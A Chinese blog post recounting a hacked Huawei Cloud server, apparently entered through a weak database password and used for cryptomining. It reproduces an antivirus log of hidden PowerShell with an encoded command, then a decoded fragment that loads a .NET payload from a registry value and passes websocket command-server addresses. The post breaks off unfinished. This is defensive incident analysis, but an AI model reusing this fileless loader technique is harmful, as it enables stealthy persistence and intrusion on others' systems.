









开始
前几天忽然收到华为云的短信通知
说我的云服务器存在对外攻击行为
一下就感觉是服务器被人黑了.

马上提交了工单,让华为云的技术人员帮我查一下服务器有哪些不正常的行为
华为云的技术人员给我反馈也下面这些问题
- 异常网络链接

- 异常进程

- 异常文件

- 异常计划

- 异常代理作业

- 挖矿木马文件

ECS主机已确认被入侵了,然后华为云就把我的外网IP给禁用了.
到这里,这个ECS主机的对外服务已经全部中断
为了快速恢复,我只能通过华为云的控制台用VPC方式登录了云主机
把下面一些明面上的问题全都处理了一下.
然后把所有密码全都修改了
初步定位原因是”疑似数据库弱口令”
然后黑客通过此通道把我服务器攻破了.
把明面上的问题处理完成后,通过工单先让ECS外网恢复了.
个人习惯是不喜欢安装一些安全软件.
因为如果电脑安装了安全软件,会出现一些莫名其妙的问题
特别是在个人电脑上面。
所以在服务器上也没有太注意过安全问题。
只要把密码、端口、防火墙设置好一般来说还是没有问题的
但是千算万算，还是出现了密码泄露，导致服务器被攻破了。
没办法，把明面上能看得出的问题解决后
在朋友的推荐下，不情愿的在服务器安装上了火绒安全软件
把软件设置好后，进行了第一次查杀

一下查出三十多处问题，然后全部用安全软件处理了。
这下放心了不少。
深扒木马
处理现有木马文件后，火绒每几分钟就提示我有程序在隐藏执行PowerShell

1
2
3
4
5
6
7
8
9
10
11
12
13
14
| 【1】2022-07-27 14:54:15,系统防护,系统加固,scrcons.exe触犯敏感动作防护规则, 已阻止
防护项目：隐藏执行PowerShell
执行文件：C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
执行命令行："C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -NoProfile -EncodedCommand dAByAHkADQAKAHsADQAKACQAXwAwADAAMAAwACAAPQBbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBiAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACgARwBlAHQALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAEgASwBMAE0AOgBcAFMAWQBTAFQARQBNACkALgBNAGEAaQBuACkADQAKACQAXwAwADAAMAAxACAAPQBbAFIAZQBmAGwAZQBjAHQAaQBvAG4ALgBBAHMAcwBlAG0AYgBsAHkAXQA6ADoATABvAGEAZAAoACQAXwAwADAAMAAwACkADQAKACQAXwAwADAAMAAyACAAPQAgACQAXwAwADAAMAAxAC4ARQBuAHQAcgB5AFAAbwBpAG4AdAANAAoADQAKAFsAcwB0AHIAaQBuAGcAWwBdAF0AIAAkAF8AMAAwADAAMwAgAD0AIABAACgAIgBDAGkATgAzAGMAegBvAHYATAAzAGQAMwBkAHoAZwB1AFkAVwBSADIAWQBqAGwAbQBlAFgAaABzAFoAagBKADIATABtAE4AdgBiAFQAbwB4AE0AagBNADAATgBTADkAMwBjAHcAbwBqAGQAMwBNADYATAB5ADkAMwBkADMAYwAzAEwAbQBGAGsAZABtAEkANQBaAG4AbAA0AGIARwBZAHkAZABpADUAagBiADIAMAA2AE0AVABJAHoATgBEAFUAdgBkADMATQBLAEkAMwBkAHoATwBpADgAdgBkADMAZAAzAE4AaQA1AGgAWgBIAFoAaQBPAFcAWgA1AGUARwB4AG0ATQBuAFkAdQBZADIAOQB0AE8AagBFAHkATQB6AFEAMQBMADMAZAB6AEMAaQBOADMAYwB6AG8AdgBMADMAZAAzAGQAegBVAHUAWQBXAF
操作结果：已阻止
进程ID：9160
操作进程：C:\Windows\System32\wbem\scrcons.exe
操作进程命令行：C:\Windows\system32\wbem\scrcons.exe -Embedding
操作进程校验和：2F88A2A21F4A40600EE3ED6B7D8D10B62CFEF7AB
父进程ID：796
父进程：C:\Windows\System32\svchost.exe
父进程命令行：C:\Windows\system32\svchost.exe -k DcomLaunch -p
|
通过Base64反解码得到要执行的代码
1
2
3
4
5
6
7
| try
{
$_0000 =[Convert]::Frombase64String((Get-ItemProperty HKLM:\SYSTEM).Main)
$_0001 =[Reflection.Assembly]::Load($_0000)
$_0002 = $_0001.EntryPoint
[string[]] $_0003 = @("CiN3czovL3d3dzguYWR2YjlmeXhsZjJ2LmNvbToxMjM0NS93cwojd3M6Ly93d3c3LmFkdmI5Znl4bGYydi5jb206MTIzNDUvd3MKI3dzOi8vd3d3Ni5hZHZiOWZ5eGxmMnYuY29tOjEyMzQ1L3dzCiN3czovL3d3dzUuYW
|
可能记录的执行命令行日志有长度限制，所以只显示了部分日志
所以我们分析出一个不完整的脚本，但是我们可以从前2句代码分析出一些内容
没有时间写了,有时间继续